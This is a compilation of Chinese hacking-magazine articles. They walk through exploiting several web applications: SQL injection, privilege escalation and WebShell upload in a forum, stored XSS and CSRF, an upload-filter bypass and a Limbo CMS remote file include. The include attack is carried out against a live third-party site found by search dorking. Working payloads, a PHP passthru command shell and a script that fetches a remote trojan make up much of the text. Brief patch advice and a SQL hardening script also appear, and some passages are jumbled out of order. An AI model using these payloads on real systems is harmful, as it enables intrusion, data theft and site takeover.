Request 里的变量赋给了“postid”，但 IsNumeric 过滤的却是“postidid”（一个并不存在的变量），这样一来，不管提交的 postid 是什么值，都会畅通无阻地进入下面的 SQL 语句。对了，提交参数还要经过 ChkSql 过滤，那么再看一下 ChkSql 函数是怎样过滤的。

```vb
function ChkSql(StrSql)
  if isNull(StrSql) then
    ChkSql = ""
    exit function
  end if
  ChkSql = Replace(StrSql, "'", "")
end function
```

哦！仅对单引号进行了过滤！那么只要提交的语句中不含单引号，不就可以在 SQL 中运行了吗？下面就在本地进行测试。先注册一个新用户登录，然后发布或回复一个帖子，在每个帖子的上方都有一行控制按钮，如图1所示。

点击刚才所发帖子上方的“X”，打开的页面如图2所示。

将该页另存为本地 HTM 格式文件，然后修改源代码中的 `<form method="post" action="delpost.asp">` 为 `<form method="post" action="http://127.0.0.1/sf25/delpost.asp">`，接着再将代码 `<input type="hidden" name="postid" value="27">` 中的“hidden”改为“text”，运行后的效果如图3所示。

在其中输入：“27 and 46=(select asc(mid(password,1,1)) from [sf_user] where userid=1)”，其中的27是该帖子的 postid 值，“and”后的语句是猜测 userid 为1的用户，其密码第一位的 ASCII 值是否为46（要得到某个用户或管理员的 ID 并不难，只要查看此人的档案，在打开的网页 URL 中就有 userid 值）。

点“提交”后，返回的信息是：“发生错误：该帖子不存在或已被删除”，这说明第一位的 ASCII 值不是46。点 IE 工具条中的“后退”回到本地提交的 HTM 页，更改数值46为47或其他数值，再次提交，直到出现的提示是“删除成功”，就猜出第一位的 ASCII 值了。而猜第二位时，还要再发一个帖子，然后再用这种删除猜测法。

无独有偶，在“showthread.asp”中，我又见到了这个疏忽，IsNumeric 过滤的仍是“postidid”，但在此处的注入就比 Delpost.asp 中容易多了，不需要登录，直接在 URL 中输入猜测语句就可以猜出用户的 MD5 值。当然，这种猜测方法也很麻烦，好在我手头上有一款通用注入，稍稍修改一下其中的选项就可以用了，修改后的效果如图4所示。

在“注入地址”中输入论坛所在的地址：“http://127.0.0.1/sf25/showthread.asp?postid=”，ID 值为一个存在帖子的 ID，“查询表”及“字段”是雪人论坛数据库中的“[sf_user]”（用户表）和“password”，条件“userid=1”中的1是所查用户的 ID。

网络中实测时，“or”所返回的是该帖子的正常信息，但我在本地测试时，可能因为2.5版的问题，用“or”返回的却是错误信息，所以我选的关键字是“试图访问的网页出现问题”，将这段关键字复制到程序下方的“关键字”处，然后点击“猜测MAX”，等猜出密码的长度后，再点击“开始破解”，按网速的快慢，很快就能得到该用户的 MD5 了，如图5所示。

事后，我上网查资料时，发现这两个漏洞在2004年就有人公布了，但雪人新发布的2.5版中竟然还存在这两个注入，搞不懂！后来对官方网站（采用的是 SQL 数据库）进行了测试，发现官方并不存在此漏洞，（网络锅炉大虾的 ACCESS 2.0版却存在这个漏洞）。不知是因为 SQL 版的代码和 ACCESS 版的代码不同，还是由于其他原因。反正，我觉得，天下哪有免费的午餐呢？

### 二、提权隐患

如果说上面的漏洞只针对 ACCESS 版，那下面的这个漏洞却是对 SQL 与 ACCESS 通吃！特别是对 SQL 版，简直就是致命的一击！在“profile.asp”中有这样一段代码：

```vb
StrSql = "update sf_user set" 

StrSql = StrSql & ", avatarwidth = " & ChkSql(request("avatarwidth")) & " " '头像图片宽度
StrSql = StrSql & ", avatarheight = " & ChkSql(request("avatarheight")) & " " '头像图片高度
StrSql = StrSql & ", birthday = '" & birthday & "' "
StrSql = StrSql & " where username='" & ChkSql(request.cookies("sf")("username")) & "'"
Conn.Execute(StrSql)
```

这是更改用户档案信息的一段代码，所使用的是 Update 语句。不知大家是否注意到代码中的“avatarwidth”和“avatarheight”与其下的“birthday”和“username”在接收方面有点不同，可能程序员认为这两项是数值，所以就对这两项提交来的值没有用单引号加以过滤。就这么一点疏忽，使得在 ACCESS 环境下，普通用户很容易就可以提升为版主或管理员身份；而在 SQL 数据库环境中，不仅可以提升权限，还能获得 WebShell。

漏洞在哪儿呢？就在 HTM 页的“图片宽度”中。这里我设置的是：“0,usergroup=1”。usergroup 是组，其中1为管理员，2为版主，3为贵宾。当我们把“0,usergroup=1”提交给 avatarwidth 后，在 Update 语句中，“图片宽度”那一句的代码就变成了：“StrSql = StrSql & avatarwidth = 0,usergroup=1 ”，因为没有单引号的过滤，SQL 就会把后面的“usergroup=1”当作合法的赋值进行更新。如此，一个普通用户就加入到管理员组了。

这个漏洞，对于 ACCESS 版来说，最大的危害也就是提升一下权限；但如果论坛采用的是 SQL 数据库，那么所能做的就远不止这些了，比如将“图片宽度”中的提升权限语句改为查询当前数据库及系统环境的语句：“0 where userid=2 and 1=(select @@version),--”，运行后就会暴出当前服务器的一些信息。或者更改为查询当前数据库名称的语句：“0 where userid=2 and 1=db_name(),--”。有了当前数据库名称，再构造一些暴库语句，进行暴表、暴字段、暴数据等一系列活动。当然还可以利用 SQL 的扩展 XP_Dirtree 来列文件目录，寻找网站的物理地址，然后再用数据库的 LOG 或差异备份来生成一个 ASP 木马！

上面的方法虽然可以学到很多东西，但太繁琐，不如直接上传 ASP 木马来得简单！在 ACCESS 版的“雪人论坛”中，允许上传的类型保存在“sf_allowuploadfile”表中（SQL 版可能会有所不同），其中有3个字段，分别是 exefilename（上传类型）、fileicon（文件图标）、display（是否显示）。下面假设 SQL 版的表名也是“sf_allowuploadfile”，在“图片宽度”中输入增加上传格式的语句：

```sql
0 where userid=2;insert [sf_allowuploadfile](exefilename,fileicon,display) values(0X610073007000,0X61002E00670069006600,0);--
```

因为 ChkSql 函数对单引号进行了过滤，所以插入的值要转换为16进制才能运行正常。其中的“0X610073007000”是“asp”的16进制，“0X61002E00670069006600”是“a.gif”的16进制，0表示不显示图标。执行该语句后，就会在允许上传类型中增加一个“*.asp”。当然，上传 ASP 文件完毕后，要记得去掉这个 ASP 格式，不然每个用户都可以上传 ASP 木马，那岂不是……删除语句如下：

```sql
0 where userid=2;delete sf_allowuploadfile where exefilename=0X610073007000;--
```

### 三、跨站隐患

删删帖子、发个公告什么的！公告？看到公告，我忽然想起了跨站漏洞，不知雪人论坛是否存在这样的隐患？

点击任一版块下方的“发布论坛公告”，却出现“发生错误：你没有执行该操作的权限”。晕，看来发布公告好像也要能进入后台的管理员才可以！虽然我进不了后台，但搞定这个限制还是小菜一碟，因为我有“cookie 欺骗”。

首先，用前面的注入漏洞猜出后台管理员 admin 的 MD5 值，然后打开“IECookiesView”，如图7所示。

在雪人论坛 Cookie 值“sf”上点右键，选择“编辑 Cookies 内容”，将键值“pmpop=1&userid=2&password=c8be217dbcf61384&username=jmdcw”更改为“pmpop=1&userid=1&password=8c1f344953eb14a1&username=admin”，然后用一个新的 IE 窗口打开论坛，再看此时的提示：“欢迎 admin 访问本论坛。”哈哈，身份已经是 admin 了！这时再打开“发布公告”窗口，很顺利地就进去了。在公告标题内输入：“欢迎<iframe src=http://www.baidu.com width=100 height=100></iframe>”，公告内容处也同样填写，公告开始与结束日期分别填入相应的时间，如图8所示。

图9 跨站的效果

发布完毕后再到该版块查看一下效果，如图9所示，还真有跨站漏洞！不仅标题中可以写入跨站语句，就连内容也一样不设防。如果将前面的长度都改为0，所内嵌的又是一个木马网页，有谁会想到管理员的公告竟是一个陷阱呢！

起初测试时，进行到这儿也就停止了，但在整理文章时，为了保持论坛的干净，便去删除这个跨站公告，结果却惊奇地发现，前台竟然没有删除公告的功能，看来想删除公告还要进入后台才行！当我打开后台的“公告管理”时，却发现跨站漏洞同样出现在后台。这时，我想起现在很流行的跨站提权，不知在这里能否成功？测试后才知道，更改管理员需要输入原管理员的密码，这个很难办。正在我思考着如何绕过管理员密码时，忽然看到后台中的“附件格式设置”，脑中灵光一闪，真是笨啊，如果能在上传类型中加入一个 ASP 格式，不就万事大吉了吗？打开“添加新的格式”窗口，在其中输入“asp”，如图10所示。

```http
POST /sf25/admin/adduploadfile.asp HTTP/1.1
Referer: http://127.0.0.1/sf25/admin/adduploadfile.asp
...
expfilename=asp&fileicon=default.gif&step=2&Submit=...
```

添加新的格式所用到的 ASP 文件是 adduploadfile.asp。对其分析后，发现“expfilename”、“fileicon”和“display”都是用 Request() 形式接收的，这种接收方式虽然可以通吃 POST 与 GET 提交，也给跨站提供了方便。

在前台发布一个带有刺激色彩的公告，标题是：“嗨！网站有问题了<iframe src=http://www.baidu.com width=0 height=0></iframe>”，公告内容是：“今天可不是4月1日！<iframe src=http://127.0.0.1/sf25/admin/adduploadfile.asp?expfilename=asa&fileicon=default.gif&step=2 width=0 height=0></iframe>”，公告运行后的效果如图11所示。

图11 运行我们构造的公告

从表面上看很正常，就是语言有些偏激了。试想，有哪个管理员会容忍在自己的网站挂上这样的公告，那么他一定会在第一时间删除这个公告。当管理员进入后台，打开公告窗口时，也就触发了跨站语句。就算管理员删除了这个公告，也为时已晚！不信？那就看一下前台中的允许上传文件吧，如图12所示，瞧，跨站语句中加入的 asa 格式已赫然在其中了！上传  
附件 *.zip *.rar *.asp *.asa  
浏览……最大 3000K 允许扩展名：*.gif *.jpg

图12 显示添加的 asa 格式

## 四、劫后求生

- 1. 注入：这个本不属漏洞，只能算是程序员的疏忽，修补的方法也很简单，将 “IsNumeric()” 中的 “postidid” 改为 “postid” 即可。
- 2. 提权：这个修补也很简单，在 “avatarwidth” 和 “avatarheight” 这两句代码中加入单引号进行过滤，修补后的代码如下：
- 3. 跨站：这种漏洞现在好像很流行，不要小瞧它，有时候它也具有很强大的杀伤力！下面就拜访一下公告跨站所寄居的窝 “newannouncement.asp”：

```asp
StrSql = StrSql & ", avatarwidth='" & ChkSql(request("avatarwidth")) & "'"
StrSql = StrSql & ", avatarheight='" & ChkSql(request("avatarheight")) & "'"
```

```asp
StrSql = "insert into sf_announcement(username, userid, title, forumid, startdate, enddate, pagetext) values(" ...
```

```asp
StrSql = StrSql & "'" & ChkSql(request.cookies("sf")("username")) & "'," & userid & ",'" & ChkSql(request("subject")) & "','" & forumid & "','" & startdate & "','" & enddate & "','" & ChkSql(request("text")) & "')"
Conn.Execute(StrSql)
```

其中的 “ChkSql(request("subject"))” 为公告标题，“ChkSql(request("text"))” 为公告内容。看到没有，只用到了 “ChkSql” 过滤单引号，难怪跨站语句可以畅通无阻！知道了漏洞的形成，要修补也就容易了，用 “server.htmlencode” 进行过滤，比如，“ChkSql(request("subject"))” 代码修改后就是：“ChkSql(server.htmlencode(request("subject")))”。

> 注：请勿利用本文中的技术从事非法活动，否则，后果自负！

> 编辑点评：刺猬真的很细心，在那么多的代码中，一个过滤的错误都没能逃过他的眼睛，进而又针对 ACCESS 和 MSSQL 两种情况进行测试利用，清晰地分析了程序中的不足，对具体情况巧妙地加以利用。另外值得一提的是作者提供的通用注入工具，有了它，我们的搞站任务就变得简单、高效多了。

## 依靠 PHP3/.PL/.ASA 突破 9466Article 文章系统上传限制

- 从本文你可以学到：
- 1. 9466Article 文章系统的漏洞分析。
- 2. 上传漏洞的灵活应用。
- 3. 综合色漏洞的防范。

9466Article 文章系统是校园在线（www.9466.com）开发的，用 PHP+MYSQL 架构，采用 SMARTY 模板引擎，全部生成静态 HTML 网页，支持二级分类（任意设置）、公告发布和管理、广告在线管理、在线投稿等系列功能，网上使用的也比较多，今天通宵无事，下了份代码读了读。

## 一、漏洞分析

读了几个文件，发现其参数过滤得比较好，没有发现明显的 SQL 注射漏洞。就在打算放弃的时候，习惯性地打开网站的配置文件 config.php，看看里面保存了什么信息，如图1所示。

在 config.php 中保存的除了连接数据库的信息外，还有很多系统的配置文件，如网页风格、上传目录、上传类型限制等。从图1可以看到其文件上传路径 $uppath 为 upfiles 目录下以年份命名的各个文件夹，禁止上传的文件类型 $notuptypes 为 '.php|.asp|.jsp|.cgi|.exe|.dll'。

看到列出来的这些禁止上传的文件类型，我一下子觉得有希望了。上面定义了不允许上传的文件后缀形式的意图来推，程序应该是把我们上传的类型和这些相比较来完成过滤的。既然是被动的过滤，那肯定就有疏忽的地方。看到被列在“黑名单”的类型只有 .asp、.php、.jsp、.cgi 这几个极为常见的类型，那这些类型以外的文件都是可以上传的咯，而像 asa、cer、php3、pl 等类型的文件都是可以用来作网页木马的，看来真的有希望了。

再找找哪里可以上传文件。在线投稿这个页面调用的 editor.php 文件中有处理上传的，看下代码先，关键代码在这里：

```php
case 'upfile': //如果是上传文件
if($do){
  //省略掉一些判断文件大小的无关代码
  $notuptypes=$notuptypes?$notuptypes:'.php|.asp|.jsp|.cgi|.exe|.dll';
  if($type=file_type($userfile_name,$notuptypes)){
    exit('对不起, 请不要上传 '.$type.' 格式的文件!');
  }
}
```

```php
$newfile=$uppath."/".$userfile_name;
$savepath=$rootpath."/".$newfile;
createDir($uppath);
if(copy($userfile,$newfile)){
  if(file_type($userfile_name,'.jpg|.gif|.bmp|.png|.jpeg')){
    // 处理图片格式的代码
  }else if(file_type($userfile_name,'.swf')){
    // 处理 flash 格式的代码
  }else{
    ...
    $out.="<center><FIELDSET align=center><LEGEND align=center><font color=red>文件上传成功！</font></LEGEND><br><a href=# onclick=\"Addfile('$userfile_name','$savepath','$note')\">点击这里添加到编辑器中</a> ]</fieldset><center>";
  }
}else{
  // 上传失败处理代码
}
```

从上面的代码我们可以看到，最关键的点是：

```php
$notuptypes=$notuptypes?$notuptypes:'.php|.asp|.jsp|.cgi|.exe|.dll';
if($type=file_type($userfile_name,$notuptypes))
  exit('对不起，请不要上传 '.$type.' 格式的文件！');
```

这里的 $notuptypes 值来源于前面我们说的那个 config.php，如果在 config.php 中已经设定好了（即 $notuptypes 不为空），这里的 $notuptypes 值就是定义的那个；如果在 config.php 中没有设置，则这里默认 .php|.asp|.jsp|.cgi|.exe|.dll。最后把我们要上传的文件的后缀与这些禁止上传的作比较，如果我们上传的文件后缀在定义的里面，就提示“对不起，请不要上传 '.$type.' 格式的文件！”。

- 1. 服务器支持 PHP 的，虽然 .php 是上传不了，但还有 php3 等。我们知道 php 和 php3 都是 PHP 文件的合法后缀。
- 2. 如果是 UNIX 主机，可能对 asp 类木马无法支持，那我们就上传 pl 的文件吧，一般的 UNIX 对 perl 都是支持的。
- 3. 如果是 WIN 主机，它过滤了 asp 但没有过滤 asa、cer 等后缀，就可以上传 asa 后缀的木马得到 WebShell。

图2 9466Article 的官方站点

OK，分析到这里，我们已经有三条路可走，下面就可以实际操作了。

## 二、实际操作

### 1、寻找突破口

我就不在本地测试了，直接去它的官方测试，地址是：http://article.9466.net/，如图2所示。在上面的页面中可以看到一个“投稿”的链接，我们就要对这里进行利用。直接进入投稿页面，地址为 http://article.9466.net/contribute.php，如图3所示。

图3 投稿页面

可以看到编辑器的最后一个按钮是“上传文件”，我们查下是不是这里调用了 editor.php 文件。查看这个投稿页面的源代码，在源代码中搜索 editor.php，得到如图4所示的结果，可以看到就是这里调用了那个 editor.php 文件。

图4 投稿页面中调用 editor.php 文件

### 2、首试未果：传 .php3 失败

通过上面的分析，我们确认了就是在这里进行利用的。点一下“上传文件”按钮，会打开一个新的页面，点“Browse”选择我们修改后缀为 .php3 的 PHP 木马 1stphp.php3，写上描述名，如图5所示。

图5 选择要上传的 .php3 木马  
图6 上传 .php3 文件得到的提示信息

然后点上传，却得到了如图6所示的失败提示信息。晕哦，失败了，看样子是也限制了 .php3 文件的上传。但是我下的代码中明明没有限制 .php3 呀？难道他自己家用的和发布的不一样？不解中。

### 3、第二条路的无奈：.pl 是个死马

从 5 月份的杂志光盘中找到《PHP Advanced Transfer Manager 漏洞串串烧》附带的 .pl 木马 test.pl，按照上面的方法传上去，查看上传成功页面的源代码可以得到上传后文件的路径，但是访问时提示下载，看起来不支持 perl 语言，test.pl 只是个死马，跑不起来，哎，无奈呀！

为：http://article.9466.net/upfiles/2006/ASPAdmin_A.asa，输入以上地址，WebShell 就拿到了，如图9所示。

## 三、收工前的窥探

### 4、第三条路的惊喜：上传 asa 型木马

前面两条路都失败了，但是我们也从中了解到一些信息，比如系统修补了 .php3 的上传，服务器不支持 perl，那服务器就很有可能是 WIN 的啦，那就应该支持 ASP（ASA）网页木马了。OK，修改一个 ASP 的木马后缀为 .asa，和前面一样打开上传页面，选取 asa 文件，提交成功，如图7所示。

传上去了，我们在这个成功的页面点右键，查看其源代码，如图8所示。

还记得最开始上传 .php3 后缀的文件不成功吗？我还纳闷着呢，找下原因去。打开 config.php 文件，如图10所示，可以看到增加了对 .php3 的过滤，呵呵，原因就在这。

从上面的源代码中可以找到我们刚才上传上去的木马的地址。

## 四、漏洞修补建议

我联系不上站长，所以到现在还没有补丁放出来。在这里先说下我的修补建议：如果是 WIN 服务器，增加对 asa、cer 等格式的过滤；如果是 UNIX 服务器，则需要限制 .pl 的上传；自然这种被动的防范还是不安全的，比较安全的方法是修改为只能上传指定格式的文件，其他的都不能上传。

（文章中用到的三种木马 1stphp.php3、test.pl 和 Admin_A.asa 在光盘中有收录。）

> 编辑点评：这个文章系统我没用过，但是网上使用这个的也不少，一般都是学校的新闻或文章系统。寻找这种站点的方法是在 Google 中以 “Power by 9466Article” 为关键字进行搜索，找到的基本上都可以成功利用，希望使用这个系统的朋友快快修补！另外补充一点，在决定上传哪种类型的木马前，可以先探测下主机信息，以确定是 WIN 还是 UNIX，免得和作者一样传个死马上去，也够浪费表情的。

## 雕虫小技之 Windows 服务器安全专辑

MS SQL Server  
使用系统帐户登录查询分析器运行以下脚本：

```sql
use master;
exec sp_dropextendedproc 'xp_cmdshell';
exec sp_dropextendedproc 'xp_dirtree';
exec sp_dropextendedproc 'xp_enumgroups';
exec sp_dropextendedproc 'xp_fixeddrives';
exec sp_dropextendedproc 'xp_loginconfig';
exec sp_dropextendedproc 'xp_enumerrorlogs';
exec sp_dropextendedproc 'xp_getfiledetails';
exec sp_dropextendedproc 'Sp_OACreate';
exec sp_dropextendedproc 'Sp_OADestroy';
exec sp_dropextendedproc 'Sp_OAGetErrorInfo';
exec sp_dropextendedproc 'Sp_OAGetProperty';
exec sp_dropextendedproc 'Sp_OAMethod';
exec sp_dropextendedproc 'Sp_OASetProperty';
exec sp_dropextendedproc 'Sp_OAStop';
exec sp_dropextendedproc 'Xp_regaddmultistring';
exec sp_dropextendedproc 'Xp_regdeletekey';
exec sp_dropextendedproc 'Xp_regdeletevalue';
exec sp_dropextendedproc 'Xp_regenumvalues';
exec sp_dropextendedproc 'Xp_regread';
exec sp_dropextendedproc 'Xp_regremovemultistring';
exec sp_dropextendedproc 'Xp_regwrite';
drop procedure sp_makewebtask
go
```

## Limbo CMS<=1.04 致命之伤——取 WebShell 如此简单

- 1. 本文实例可以学到：
- 2. Limbo CMS 漏洞的产生。
- 3. 构造漏洞利用的条件。
- 4. 提权路径。

Limbo（http://www.limbo-cms.com）是一个用 PHP 写的网站智能建站系统（CMS），它是网站的后台引擎，使网站内容的创建、管理和共享更加简易，主要面向的是公司网站、中小型商务网站、家庭和个人网站。其功能很丰富，包括可收藏管理、广告管理、多媒体（图片、文件）上传和管理、RSS 等系列功能，其口号为：power in simplicity!（强大源于简洁）。很好奇它是如何保证简洁又强大的，心想肯定有漏洞！果然，最近爆出致命漏洞，巧妙利用后可以得到 WebShell，让我们来看看。

## 一、漏洞的产生

产生漏洞的文件是 `/classes/adodbt/sql.php`，看看漏洞代码先，如下：

```php
<?php
include_once($classes_dir."adodbt/misc.php");
include_once($classes_dir."adodbt/stringparser.php");
...
?>
```

从上面的代码可以看到，它直接 include_once（包含）了文件，我们可以从外部提交 `$classes_dir` 参数来加以利用，成功利用的话可以执行命令或者得到 WebShell。看上面有漏洞的代码，经常看 NoHack 的朋友都清楚该怎么做了，可以直接构造如下格式的 Exploit 来利用：

```text
Exploit: /classes/adodbt/sql.php?classes_dir=http://yourhost/cmd.txt?cmd=ls
```

## 二、寻找目标

在 Google 中用关键词 `inurl:"index2.php?option=rss"` 或者 `powered By Limbo CMS` 搜索，可以看到使用这个系统的用户不算少，图1就是以 powered By Limbo CMS 为关键词搜索的结果。

图1 搜索使用 Limbo CMS 的目标

## 三、定位目标

在搜索得到的结果里随便选一个目标作为测试对象（http://www.****sson.net/），打开这个站，看到内容还蛮多的，其页面就是 Limbo CMS 的风格了，如图2所示。

图2 目标锁定

## 四、测试漏洞

在网站的右下角可以看到 “Powered by Limbo-CMS 1.0.4” 的标志，这正是我们的目标，但还是先手工测试下看漏洞还存在不，以免浪费时间。方法很简单，直接提交一个不存在的 classes_dir 看看效果，例如提交如下语句：http://www.****sson.net/classes/adodbt/sql.php?classes_dir=11，指定 $classes_dir 为一个非正常的值 11，按照代码的意思就会去打开 11/adodbt/misc.php 这个文件，而这个是不存在的，所以就会报错，信息如图3所示。

图3 漏洞确认测试

## 五、漏洞利用个漏洞了，那我们就可以来构造文件进行利用。首先构造一个文件放在我自己的服务器上，地址是 `http://www.iceskysl.net/cmd.txt`，文件名为 cmd.txt，如图4所示。


图4 构造利用文件

从上面我们可以看到文件的内容为：

```php
<?php
if (get_magic_quotes_gpc())
{$_REQUEST["cmd"]=stripslashes($_REQUEST["cmd"]);} // 取提交的cmd参数
ini_set("max_execution_time",0); // 设置运行时间
echo "<br>I.S.T<br>"; // 输出前标志
passthru($_REQUEST["cmd"]); // 执行cmd参数
echo "<br>I.S.T<br>"; // 输出后标志
?>
```

大家对上面这段代码都很熟悉了吧，其作用就是取得提交的 cmd 参数的值，然后调用 passthru 来执行它并返回结果，代码中的 I.S.T 是为了把命令执行的输出和其他输出区分开来。

OK，现在我们可以利用了，把上面的 classes_dir 修改为我们这个文件（cmd.txt）的地址，并提交要执行的命令参数给 cmd，如下提交：

```text
http://www.***sson.net//classes/adodbt/sql.php?classes_dir=http://www.iceskysl.net/cmd.txt?&cmd=id
```

其意思就是调用 passthru 执行我们提交的 id 命令（用来查看我们的当前权限），执行后返回结果如图5所示。


图5 执行id命令的返回结果

从返回的结果中，我们可以看到权限是 nobody，权限真是小啊！看来想写 WebShell 还要费点事，不过思路是很明确的：查看当前目录，寻找 nobody 可写的目录写入我们的 WebShell。

- 1. 第一步：先看我们现在是在哪个路径下。LINUX 就是好，直接一个 pwd 命令就出来了，提交如下语句：

```text
http://www.***sson.net//classes/adodbt/sql.php?classes_dir=http://www.iceskysl.net/cmd.txt?&cmd=pwd
```

返回信息如图6所示。


图6 执行pwd查看当前目录

成功返回路径为 `/usr/vhome/5/2/7/52744.ctc-***-g1.dns.com.cn/www/classes/adodbt`，OK，很顺利！

- 2. 第二步：再找可写的目录，如下提交 `ls -la` 命令查看当前目录的详细情况。

```text
http://www.***sson.net//classes/adodbt/sql.php?classes_dir=http://www.iceskysl.net/cmd.txt?&cmd=ls%20-la
```

在返回的信息里没有找到可写的目录或者文件，我们接着用 `../` 往上跳，直到我们提交 `ls -la ../../..` 时才找到我们可以写的目录，如图7所示。

```text
http://www.***sson.net//classes/adodbt/sql.php?classes_dir=http://www.iceskysl.net/cmd.txt?&cmd=ls%20-la%20../../..
```


图7 执行ls -la ../../.. 找到可写目录

- 3. 第三步：从上面的图中我们可以看到有好几个可写目录（modules、templates、limbots），随便哪个都可以，只要可写就行了。

如下开始写 WebShell，我们的办法是让它打开一个 PHP 木马文件，读取内容写到目标服务器上，如下编写一段脚本，命名为 creatfile.txt，如图8所示。


图8 creatfile 的内容

这个文件的内容如下：

```php
<?
$f1=file_get_contents("http://www.iceskysl.net/1stphp.txt"); // 打开文件
$f=fopen("../../modules/ist.php","a");
fwrite($f,$f1); // 写 1stphp.txt 内容到 ist.php 中
fclose($f); // 关闭前面打开的文件
?>
```

OK，下面就好办了，直接提交如下语句：

```text
http://www.***sson.net//classes/adodbt/sql.php?classes_dir=http://www.iceskysl.net/creatfile.txt?
```

返回结果如图9所示，看来成功了。


## 第四步：推算 WebShell 路径

前面我们得到的路径是 `/usr/vhome/5/2/7/52744.ctc-***-g1.dns.com.cn/www/classes/adodbt`，写 WebShell 时写的路径是 `../../modules/ist.php`，那就是当前目录上跳两级为 `/www/` 下的 `/modules/` 下的 ist.php 文件。

OK，地址得到了，如 `http://www.**sson.net/modules/ist.php`，输入地址进来，如图10所示。


拿到 WebShell，看了下主机的配置也不是很强，加之这只是一个测试，就没继续下去。这个系统还有别的漏洞，修补就不多说了，官方也给出了补丁，要修补的朋友直接去官方下载即可。

> 编者感言：看过前几期杂志的朋友应该对这样的漏洞很熟悉了，对 include 的文件名没有进行处理，导致我们可以提交恶意的路径并包含我们构造好的文件，进行执行命令或者写 WebShell，这类漏洞的利用是极具杀伤力的。相信经过这几期类似漏洞的分析，大家对这样的漏洞都该掌握了吧。


## 起因

经过闷闷同学的辛勤劳动，我的基于 PHPWIND 的论坛终于成功整合了 BLOG 功能，马上去试了一下，感觉还真不错。既然朋友把 BLOG 整合好了，我也该做点事了吧，那就检查一下这个 BLOG 的安全吧。

## 检测过程

这个 BLOG 是用 PHP 写的，由于我对 PHP 并不是很熟悉，也懒得去看代码，所以就准备从一些已经发现的类似漏洞着手。大家都还记得 PHPWIND 4.01 出的跨站漏洞吧？就是帖子中心和附件描述处过滤不严，导致可以写入跨站语句，其中以附件描述处的尤为严重，只需要普通用户权限就可以利用了。既然 PHPWIND BLOG 和 PHPWIND 论坛是同一家的程序，那这个 BLOG 的附件描述会不会也有同样的问题呢？于是我来到发表新日志的地方，在附件描述栏写入如下代码：

```html
<script>alert('test')</script>
```


然后点“提交”发表日志。打开刚发表的日志，马上就弹出了含有“test”的窗口，如图2所示。如上看来真的没有对附件描述处进行过滤。相应地，如果把 `<script>alert('test')</script>` 换成一段 COOKIES 或转向脚本，也可以被执行。

木马网页代码，浏览这篇日志的用户就要中招了。我们还注意到，在弹出 test 后，显示的附件描述处是没有任何内容的，如图3所示。也就是说，别人可以认为是没有描述，这样一来，跨站挂马的隐蔽性就增强了不少。


初步测试成功后，我以为是我朋友弄的 BLOG 是老版本的问题，于是就问他整合的是哪个版本的 BLOG，他说是最新的 4.3.2 版。我还是不太相信，但我又没有在官方创建 BLOG 的权限，于是想到 E.S.T 的论坛整合的 BLOG 也是这套程序。E.S.T 作为国内著名的安全团队，它用的程序的版本应该是最新的。于是找到 E.S.T 的 BLOG 进行了类似的测试，结果漏洞同样存在，效果一样，就不抓图了。

既然发表日志的附件描述处过滤不严，那么其他可写描述的地方是不是也有类似漏洞呢？经过我仔细探索，发现这套 BLOG 一共有 3 个可以写描述的地方，除了日志发表处以外还有相册描述处和相册图片描述处。于是，我又分别在这两个可以写描述的地方写入 `<script>alert('test')</script>` 进行测试，如图4所示。


然后访问相关页面，发现写入的描述没有出现跨站效果，而是直接把代码显示出来了，如图5所示。


难道这两个地方都过滤掉了吗？我又到 E.S.T 的 BLOG 试了一次，这次结果有些不同了：在相册描述处的语句还是一样，直接显示出代码来，但在相册图片描述处却弹出一个“test”，如图6所示。


这到底是怎么回事呢？为什么同是一套程序，在 E.S.T 可以测试成功，而在我网站的 BLOG 上却不能成功呢？郁闷，再试一次看看，更奇怪的是这次居然连在 E.S.T 测试都不成功了。到底是什么问题呢？只好到个人相册管理那里，编辑刚才测试成功的那个图片，看看有没有新发现。看了半天还是看不出什么名堂来，就一个字母一个字母地看，终于发现问题了：原来我的语句中多了一个空格，变成了 `<script>alert('test') </script>`（注意 `</script>` 前有个空格），而这个空格又正好处在执行的地方，难怪我看了这么久才发现呢。那到底是不是这个空格的问题呢？于是我又在相册发了一张图片，图片描述写 `<script>alert('test') </script>`，如图7所示。


发表成功后访问相关页面，结果执行成功了！看来这里的过滤也不是很好啊，只用一个空格就可以绕过去了！接着，我又用带空格的语句测试了相册描述处，但语句并没有被执行，看来相册描述这儿不存在该漏洞。

## 漏洞变通修补

既然发现了漏洞，就要进行修补。那么，怎么修补呢？如果是 ASP 的好办，直接在 CONN 后加 HTML 转译代码就可以了。但 PHP 的我并不熟悉，怎么办呢？不能从根本上解决问题，那就想想变通的办法吧。既然是附件描述处存在跨站漏洞，那么我不给用户写描述不就可以了吗？我只要把包括附件描述、相册描述、相册图片描述所涉及的页面的模板都作一番修改，把写描述的那个框直接删掉就可以了。虽然相关的写入描述的 PHP 代码还在，还可以通过构造本地页面提交等方法提交跨站语句，但毕竟麻烦了许多，而且也可以防止许多菜鸟进行破坏了。

## 后记

想不到曾在 PHPWIND 4.01 这个相对较老的论坛版本出现过并闹得沸沸扬扬的漏洞居然还会出现在同一家出品的新版本 BLOG 上，看来只是进行了简单的代码移植，并没有注意漏洞的修补！这个 BLOG 的相关漏洞我已经告诉 E.S.T 站长冰血封情，冰血他在 PHPWIND 官方内部版块报告了这个漏洞，大家看到这篇文章的时候补丁应该也出来了，希望用这套程序的各位站长注意打补丁。

> 编辑点评：在 PHPWIND 4.01 曾出现过的老漏洞，竟然在其新版的 BLOG 系统中依然存在，采呆只是通过黑盒简单测试了下就轻易地找到了，虽然其过程有些幸运成分（无意中多加了一个空格），但也能从一个侧面反映出这个 BLOG 的安全系数。和 PHPWIND 论坛相比，其安全性是差了不少（听冰血说 PHPWIND 论坛的附件那里也有 Bug），建议大家抽时间好好读读代码，可能会有惊喜！顺便提醒大家，作者的修补方法是不彻底的，官方补丁已经出来，请速到官方下载补丁进行修补！

## 通杀 2.x 版 IPB 论坛漏洞利用例析

已经加了一个用户名是 iceskysl，密码为 123456 的账号，根据上面的参数介绍，这里执行的命令就是：`perl ..\EXP\ipbce.pl -h XXXX.org.cn -d /php/ipb/ -l iceskysl -p 123456 -f2 -v0`，然后可以看到如图2所示的提示。


> 从杂志你可以学到  
> 1、2.0 版 IPB 论坛的真正漏洞。  
> 2、配合 EXP 得到 WebShell 的过程和技巧。

